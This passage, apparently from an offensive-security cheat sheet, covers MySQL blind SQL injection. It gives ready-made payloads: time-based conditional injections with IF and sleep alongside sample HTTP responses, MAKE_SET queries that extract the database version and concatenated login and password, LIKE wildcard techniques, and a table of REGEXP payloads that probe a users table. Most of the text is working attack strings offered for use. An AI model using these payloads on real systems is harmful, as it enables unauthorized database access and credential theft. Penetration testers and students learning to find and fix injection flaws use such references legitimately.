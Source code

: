 ### MYSQL Blind Using a Conditional Statement

* TRUE: `if @@version starts with a 5`:

    ```sql
    2100935' OR IF(MID(@@version,1,1)='5',sleep(1),1)='2
    Response:
    HTTP/1.1 500 Internal Server Error
    ```

* FALSE: `if @@version starts with a 4`:

    ```sql
    2100935' OR IF(MID(@@version,1,1)='4',sleep(1),1)='2
    Response:
    HTTP/1.1 200 OK
    ```

### MYSQL Blind With MAKE_SET

```sql
AND MAKE_SET(VALUE_TO_EXTRACT<(SELECT(length(version()))),1)
AND MAKE_SET(VALUE_TO_EXTRACT<ascii(substring(version(),POS,1)),1)
AND MAKE_SET(VALUE_TO_EXTRACT<(SELECT(length(concat(login,password)))),1)
AND MAKE_SET(VALUE_TO_EXTRACT<ascii(substring(concat(login,password),POS,1)),1)
```

### MYSQL Blind With LIKE

In MySQL, the `LIKE` operator can be used to perform pattern matching in queries. The operator allows the use of wildcard characters to match unknown or partial string values. This is especially useful in a blind SQL injection context when an attacker does not know the length or specific content of the data stored in the database.

Wildcard Characters in LIKE:

* **Percentage Sign** (`%`): This wildcard represents zero, one, or multiple characters. It can be used to match any sequence of characters.
* **Underscore** (`_`): This wildcard represents a single character. It's used for more precise matching when you know the structure of the data but not the specific character at a particular position.

```sql
SELECT cust_code FROM customer WHERE cust_name LIKE 'k__l';
SELECT * FROM products WHERE product_name LIKE '%user_input%'
```

### MySQL Blind with REGEXP

Blind SQL injection can also be performed using the MySQL `REGEXP` operator, which is used for matching a string against a regular expression. This technique is particularly useful when attackers want to perform more complex pattern matching than what the `LIKE` operator can offer.

| Payload | Description |
| --- | --- |
| `' OR (SELECT username FROM users WHERE username REGEXP '^.{8,}$') --` | Checking length |
| `' OR (SELECT username FROM users WHERE username REGEXP '[0-9]') --`   | Checking for the presence of digits |
| `' OR (SELECT username FROM users WHERE username REGEXP '^a[a-z]') --` | Checking for data starting by "a" |
